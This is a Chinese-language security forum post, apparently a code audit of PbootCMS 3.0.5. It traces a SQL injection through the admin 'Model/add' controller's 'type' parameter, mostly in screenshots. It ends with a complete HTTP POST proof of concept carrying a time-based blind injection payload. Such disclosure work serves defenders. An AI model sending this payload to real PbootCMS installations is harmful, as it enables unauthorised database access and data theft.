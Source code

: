 本来想发3.0.4版本的搜索sql注入，但看到已经有大佬发了，去官网看了下刚更新到3.0.5不久，就去看看有没有大佬不要的洞。  
这个思路和3.0.4版本的搜索sql基本上没啥区别。

### 代码审计

\\apps\\admin\\controller\\content\\ModelController.php  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ff20d5e17692231748c1d35c32513c3d2068ddf6.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ff20d5e17692231748c1d35c32513c3d2068ddf6.png)  
\\core\\function\\helper.php  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3f53561aacebce6a0690b123368fdc79de36aca4.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-3f53561aacebce6a0690b123368fdc79de36aca4.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2bc873d1b87de3978825dff78473bcf4a61e6583.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2bc873d1b87de3978825dff78473bcf4a61e6583.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2e124abcb23afd2333125b3dd8ce3e232380a1a5.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2e124abcb23afd2333125b3dd8ce3e232380a1a5.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a2c9f9d94c30d683aedd0c1ef5c6f20eebd5a0be.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a2c9f9d94c30d683aedd0c1ef5c6f20eebd5a0be.png)

接受到数据后会经过一系列的过滤（只能包含中文、字母、数字、水平线、点、逗号和空格）。

\\apps\\admin\\model\\content\\ModelModel.php  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2e61c8b6fce234971ddbaef33d7c1c0fe010ecc3.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2e61c8b6fce234971ddbaef33d7c1c0fe010ecc3.png)  
Type参数可控最终导致了sql注入  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ce386099e7196194689370b0d1a43a054f30bf7d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ce386099e7196194689370b0d1a43a054f30bf7d.png)

### 复现

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8fe60acfa1cf7f63e0f5be594c7f783d1df4d306.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8fe60acfa1cf7f63e0f5be594c7f783d1df4d306.png)  
POC:

```php
POST /admin.php?p=/Model/add HTTP/1.1
Host: pbootcms.cc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://pbootcms.cc/admin.php?p=/Model/index
Content-Type: application/x-www-form-urlencoded
Content-Length: 182
Origin: http://pbootcms.cc
Connection: close
Cookie: Hm_lvt_f6f37dc3416ca514857b78d0b158037e=1625620741,1625709480; lg=cn; PbootSystem=i15vq8q4g528jug6soss3shve6; Hm_lpvt_f6f37dc3416ca514857b78d0b158037e=1625709480; XDEBUG_SESSION=PHPSTORM
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

formcheck=20ef862bac15666418675fc5fbd7eb4c&name=1111111&type=2 AND (SELECT 2704 FROM (SELECT(SLEEP(5)))XhYr)&urlname=1111111111111111111&listtpl=11111111&contenttpl=11111111&status=1
```
